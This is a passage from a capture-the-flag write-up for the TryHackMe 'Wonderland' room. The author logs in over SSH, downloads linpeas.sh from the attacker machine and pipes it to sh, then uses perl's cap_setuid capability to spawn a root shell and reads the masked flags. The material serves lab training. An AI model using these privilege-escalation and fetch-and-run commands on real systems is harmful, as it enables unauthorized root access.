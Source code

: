 Ssh as hatter with password from the text file.

```terminal
➜  wonderland ssh hatter@$IP
hatter@10.10.113.230's password:
```

Run the `linpeas.sh` as hatter to find vulnerabilities inside this box.

```terminal
➜  linpeas sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.113.230 - - [06/Oct/2022 03:47:32] "GET /linpeas.sh HTTP/1.1" 200 -

hatter@wonderland:~$ curl 10.17.69.235/linpeas.sh | sh

```

I found setuid binary capabilities from linpeas.

```terminal
Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

This means any id or uid of 0 gets special privileges running processes, it will skip the restriction when the system found id or uid with 0.

I searched how to bypass this thing and found GTFOBINS has solution regarding `/usr/bin/perl`
To elevate our privileges to root, we need to execute this command as hatter.

```terminal
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

Find the user.txt in `/root` directory

```terminal
# cd /root
# ls
user.txt
# cat user.txt
thm****************************
```

And get root.txt in `/home/alice`

```terminal
# cd /home
# ls
alice  hatter  rabbit  tryhackme
# cd alice
# ls
random.py  root.txt  walrus_and_the_carpenter.py
# cat root.txt
thm********************************
#
```

***

![]({{ "/images/mandatory/pwned.png" | relative_url }})



> [Wonderland - Tryhackme](https://tryhackme.com/room/wonderland)